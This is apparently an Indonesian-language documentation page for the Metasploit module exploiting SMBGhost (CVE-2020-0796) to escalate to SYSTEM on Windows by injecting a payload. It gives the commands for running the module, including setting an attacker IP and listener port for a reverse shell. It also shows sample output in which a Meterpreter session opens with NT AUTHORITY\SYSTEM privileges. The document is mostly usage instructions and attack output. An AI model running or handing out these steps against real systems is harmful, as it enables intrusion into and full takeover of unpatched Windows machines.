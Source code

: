 # cve_2020_0796_smbghost

Terdapat kerentanan pada protokol Microsoft Server Message Block `3.1.1` (`SMBv3`) yang dapat dimanfaatkan untuk mengeksekusi kode pada server yang rentan.

Implementasi exploit lokal ini memanfaatkan kerentanan tersebut untuk menaikkan hak akses (`privilege escalation`), sebelum melakukan injeksi payload ke dalam proses `winlogon.exe`.

## Penulis
- Daniel García Gutiérrez
- Manuel Blanco Parajón
- Spencer McIntyre

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`


## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2020_0796_smbghost
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 10.0.18363.0
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 6076 launched.
[*] Reflectively injecting the DLL into 6076...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 192.168.1.51
[*] Meterpreter session 2 opened (192.168.1.11:4444 -> 192.168.1.51:49782) at 2025-05-17 17:09:49 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi:
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2020_0796_smbghost/)
